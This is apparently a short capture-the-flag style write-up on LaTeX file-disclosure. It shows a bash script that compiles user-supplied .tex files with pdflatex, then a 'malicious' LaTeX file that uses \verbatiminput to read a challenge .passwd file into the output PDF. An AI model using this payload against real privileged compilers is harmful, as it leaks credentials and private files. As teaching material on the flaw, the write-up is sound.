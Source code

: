 
In computing, **LaTeX** is a typesetting system commonly **used for creating documents that require precise formatting**, such as academic papers, technical reports, presentations, and scientific articles. LaTeX is widely used in academia, especially in fields such as mathematics, computer science, engineering, physics, and other technical disciplines.


## Input

Latex `input` statement in vulnerable to information disclosure.  
It allows to include file content into PDFs for example

***PDF Maker (Latex compiler)***
```bash
#!/usr/bin/env bash                                                    

if [[ $# -ne 1 ]]; then                                                
    echo "Usage : ${0} TEX_FILE"                                       
fi                                                                     

if [[ -f "${1}" ]]; then                                               
    TMP=$(mktemp -d)                                                   
    cp "${1}" "${TMP}/main.tex"                                        

    # Compilation                                                      
    echo "[+] Compilation ..."                                         
    timeout 5 /usr/bin/pdflatex \                                      
        -halt-on-error \                                               
        -output-format=pdf \                                           
        -output-directory "${TMP}" \                                   
        -no-shell-escape \                                             
        "${TMP}/main.tex" > /dev/null                                  

    timeout 5 /usr/bin/pdflatex \                                      
        -halt-on-error \                                               
        -output-format=pdf \                                           
        -output-directory "${TMP}" \                                   
        -no-shell-escape \                                             
        "${TMP}/main.tex" > /dev/null                                  

    chmod u+w "${TMP}/main.tex"                                        
    rm "${TMP}/main.tex"                                               
    chmod 750 -R "${TMP}"                                              
    if [[ -f "${TMP}/main.pdf" ]]; then                                
        echo "[+] Output file : ${TMP}/main.pdf"                       
    else                                                               
        echo "[!] Compilation error, your logs : ${TMP}/main.log"      
    fi                                                                 
else                                                                   
    echo "[!] Can't access file ${1}"                                  
fi                                                                     
```

**Usage :**
```bash
./compiler LATEXFILE.tex
```

The fact is that if the compiler runs with privileges, it can read files content (if the owner have read rights)

**Malicious file :**
```latex
\documentclass{article}

\usepackage{verbatim} % Pour utiliser \verbatiminput

\title{Inclusion du fichier .passwd dans LaTeX}
\author{}
\date{}

\begin{document}

\maketitle

Voici le contenu du fichier \texttt{.passwd} :

\verbatiminput{/challenge/app-script/ch23/.passwd}

\end{document}
```